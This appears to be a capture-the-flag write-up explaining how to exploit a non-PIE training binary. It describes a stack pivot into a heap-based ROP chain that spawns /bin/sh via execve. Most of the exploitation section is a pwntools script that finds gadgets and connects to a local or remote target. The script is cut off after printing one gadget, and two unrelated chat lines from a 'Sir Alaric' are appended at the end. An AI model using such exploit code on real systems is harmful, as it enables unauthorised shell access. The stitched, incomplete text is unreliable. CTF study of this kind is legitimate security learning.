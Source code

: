 ### Exploitation

The idea for exploiting this program is the following:
1. supply a `target` that would make the heap allocated pointer land on the location where `RBP` is stored in current stack frame (`target_dummy`)
2. supply a ROPchain in the heap memory for spawning `execve("/bin/sh", 0, 0)`
3. `target_dummy` return and corrupt `RBP` (now points to heap location at `ptr`)
4. `training` return and corrupt `RSP` (same)
5. The program returns from the value at `RSP`

The ROPchain for spawning the shell does the following:
1. write `"/bin/sh\0"` to a writable location in the binary (possible because non PIE)
2. craft arguments to `execve` (`rdi=@binsh`, `rsi=0`, `rdx=0`)
3. make a syscall

Chaining this together, we build the following exploit code:
```python
from pwn import *
import argparse
import binascii

context.arch = 'amd64'
context.endian = 'little'

if __name__ == "__main__":
    parser = argparse.ArgumentParser()

    subparsers = parser.add_subparsers(dest='command')

    parser_local = subparsers.add_parser('local')

    parser_remote = subparsers.add_parser('remote')
    parser_remote.add_argument('host')
    parser_remote.add_argument('port', type=int)

    parser.add_argument('-b', '--binary', help='local binary path', required=True)


    args = parser.parse_args()

    if args.command == 'local':
        p = process(args.binary)
    elif args.command == 'remote':
        p = remote(args.host, args.port)
    else:
        parser.print_help()
        exit(1)

    binary = ELF(args.binary)
    rop = ROP(binary)

    # craft a ropchain that holds "/bin/sh\0",
    # and will call execve("/bin/sh")
    rop = ROP(binary)
    
    g_pop_rdi = rop.find_gadget(["pop rdi", "ret"]).address
    g_pop_rsi = rop.find_gadget(["pop rsi", "ret"]).address
    g_pop_rdx = rop.find_gadget(["pop rdx", "ret"]).address
    g_pop_rax = rop.find_gadget(["pop rax", "ret"]).address
    g_syscall = rop.find_gadget(["syscall", "ret"]).address
    g_mov_prdi_rax= 0x4020f5

    print('[+] Gadgets:')
    print('[-] @g_pop_rdi       :', hex(g_pop_rdi))
```

[Sir Alaric]: Give me your best warcry!!
[Sir Alaric]: That was quite a shot!!